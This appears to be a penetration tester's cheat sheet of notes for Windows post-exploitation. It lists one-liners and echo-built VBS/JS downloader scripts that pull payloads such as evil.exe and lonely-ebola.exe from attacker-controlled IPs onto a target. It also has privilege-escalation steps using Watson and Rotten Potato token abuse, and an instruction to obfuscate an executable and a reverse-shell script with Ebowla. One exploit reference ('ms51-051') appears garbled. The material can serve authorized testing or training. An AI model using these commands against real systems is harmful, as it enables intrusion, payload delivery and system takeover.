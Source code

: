 ```
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

	* then on target system `cscript wget.vbs http://192.168.10.5/evil.exe evil.exe`

* Invoke-WebRequest -OutFile  b.exe http://10.10.12.211:8000/lonely-ebola.exe
* iwr -outf b.exe http://10.10.12.211:8000/lonely-ebola.exe
*  save the file as `wget.js`  and run like `cscript /nologo wget.js http://example.com`

```
	echo 'var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");' > wget.js
	echo 'WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);' >> wget.js
	echo 'WinHttpReq.Send();' >> wget.js
	echo 'WScript.Echo(WinHttpReq.ResponseText);' >> wget.js

	/* To save a binary file use this code instead of previous line
	echo 'BinStream = new ActiveXObject("ADODB.Stream");' > wget.js
	echo 'BinStream.Type = 1;' >> wget.js
	echo 'BinStream.Open();'   >> wget.js
	echo 'BinStream.Write(WinHttpReq.ResponseBody);' >> wget.js
	echo 'BinStream.SaveToFile("out.bin");' >> wget.js
*/
```

## Kernel exploits

1. run watson, if none found

2. systeminfo 
	if windows 2008 r2 box > try ms51-051

## Rotten Potato

* whoami /priv
* use when any of the tokens are there:
```
	* SeImpersonatePrivilege
	* SeAssignPrimaryPrivilege
	* SeTcbPrivilege
	* SeBackupPrivilege
	* SeRestorePrivilege
	* SeCreateTokenPrivilege
	* SeLoadDriverPrivilege
	* SeTakeOwnershipPrivilege
	* SeDebugPrivilege
```
* Ebowla the lonely.exe and reverse-shell.ps1 : gets lonely-ebola.exe and rever-ebowla.ps1
* upload the 2 files using:
	* Invoke-WebRequest -OutFile  b.exe http://10.10.12.211:8000/lonely-ebola.exe
	* iwr -outf b.exe http://10.10.12.211:8000/lonely-ebola.exe
	*  save the file as `wget.js`  and run like `cscript /nologo wget.js http://example.com`
